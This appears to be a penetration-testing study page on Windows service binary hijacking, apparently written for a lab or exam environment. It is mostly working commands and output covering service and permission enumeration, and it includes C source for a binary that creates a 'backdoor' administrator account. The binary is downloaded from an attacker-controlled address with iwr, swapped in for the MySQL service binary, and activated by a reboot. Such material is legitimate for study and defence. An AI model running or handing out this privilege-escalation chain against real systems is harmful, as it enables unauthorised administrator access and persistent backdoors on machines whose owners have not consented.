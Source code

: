 # Service Binary Hijacking

Each Windows service has an associated binary file that is executed on startup. If these binary files aren't properly secured, a user can replace it with malicious code.

For example, a user installs an application and makes it a Windows service but accidentally allows Read Write (RW) permissions for all users. We can replace this application with a malicious binary, and restart the service, or restart the system system and the malicious binary will execute.

***

## Enumerating Services

To get a list of installed Windows services we can choose a variety of different tools. **(Get-Service, Get-Ciminstance, GUI services.msc)**.&#x20;

### Get-Ciminstance

_<mark style="color:red;">**NOTE:**</mark>_ Get-CimInstance and Get-Service will return "Permission denied" if using WinRM. A RDP session will fix this on a non-administrative user.

```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Name                      State   PathName
----                      -----   --------
Apache2.4                 Running "C:\xampp\apache\bin\httpd.exe" -k runservice
Appinfo                   Running C:\Windows\system32\svchost.exe -k netsvcs -p
AppXSvc                   Running C:\Windows\system32\svchost.exe -k wsappx -p
AudioEndpointBuilder      Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p
Audiosrv                  Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p
BFE                       Running C:\Windows\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
BITS                      Running C:\Windows\System32\svchost.exe -k netsvcs -p
BrokerInfrastructure      Running C:\Windows\system32\svchost.exe -k DcomLaunch -p
...
mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
...
```

#### What we're looking for

We're looking for services that are installed in locations other than **C:\Windows\System32.** These applications are **user installed.**  For exampl&#x65;**: C:\xampp\\.**

## Enumerating Permissions

Once we've enumerated the installed service and found one of interest, we can view the permissions.  We can use tools like: _**icacls**_ Windows utility or the PowerShell Cmdlet _**Get-ACL**_

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

### **icacls - Check Permissions of service**

```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

**Here we see the "Users" group has Full access to modify the binary.**&#x20;



## Create Malicious Binary

This can be a reverse shell, or a simpler payload. For example: creating a new user.

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user backdoor password123! /add");
  i = system ("net localgroup administrators backdoor /add");
  
  return 0;
}
```

```c
kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

## Transfer Malicious Binary - iwr

Our malicious binary creates a new user and adds it to Adminstrators group

```
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
```

## Move Malicious Binary to Service - Move

```
# Move target binary out of directoy.

PS> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

# Move malicious binary & rename to original.

PS> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

## Restart Service

If we have permissions on the service we can restart the service with `Restart-Service`, otherwise see below.

```
Restart-Service -name "ServiceName With Malicious exe"
```

## Restart

We'll need to restart the computer since most services are protected by Admistrators.&#x20;

```
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

We're able to restart the system.

_**Shutdown Computer:**_

```
PS C:\Users\dave> shutdown /r /t 0 
```

## Verify Exploit

```
PS> Get-LocalGroupMember administrators

User        CLIENTWK220\Admin            Local
User        CLIENTWK220\backdoor         Local
```

